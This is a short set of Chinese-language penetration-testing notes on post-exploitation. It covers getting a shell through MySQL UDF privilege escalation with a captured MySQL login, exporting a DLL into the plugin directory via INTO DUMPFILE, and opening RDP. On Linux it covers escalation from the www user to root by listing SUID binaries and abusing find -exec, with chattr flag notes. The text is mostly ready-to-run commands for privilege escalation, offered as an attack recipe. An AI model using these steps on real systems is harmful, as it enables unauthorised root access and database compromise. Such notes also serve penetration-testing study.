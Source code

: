 #### getshell

1. 利用 3306 端口，获取 mysql 用户名 密码

2. 查询系统位数，32/64

   show variables like '%compile%';

3. 利用 mysql-udf 提权 用户自定义函数

   建立一张表，将 dll16 进制文件临时存放到表中。使用 mysql < \*.sql 或使用数据库连接工具。

4. 查询是否有导出权限

   show global variables like 'secure%';

5. 导出位置

   select version();

   mysql<5.0 任意

   5.0<=mysql<5.1 放在系统目录

   mysql>=5.1 lib/plugin

6. 导出到指定位置

   show variables like 'plugin%';

   SELECT udf FROM temp_udf INTO DUMPFILE "plugin_dir";

#### 远程桌面

1.打开 3389 端口

#### www 提权

whoami

回显：www

**SUID 提权**

![image-20221204205003625.png](https://img.ghostliner.top/OalkLp.png)

**nmap, find, vim, bash, more, less, nano, cp, awk, mv**

1、查找那些命令有 suid

```shell
find / -user root -perm -4000 -print 2>/dev/null
```

2、发现 find 命令有 suid，可以提权

```shell
find <filename> -exec whoami \; # 回显root
chattr -i <filename> # 修改文件为可修改
```

```
a：让文件或目录仅供附加用途。
b：不更新文件或目录的最后存取时间。
c：将文件或目录压缩后存放。
d：将文件或目录排除在倾倒操作之外。
i：不得任意更动文件或目录。
s：保密性删除文件或目录。
S：即时更新文件或目录。
u：预防意外删除。
```
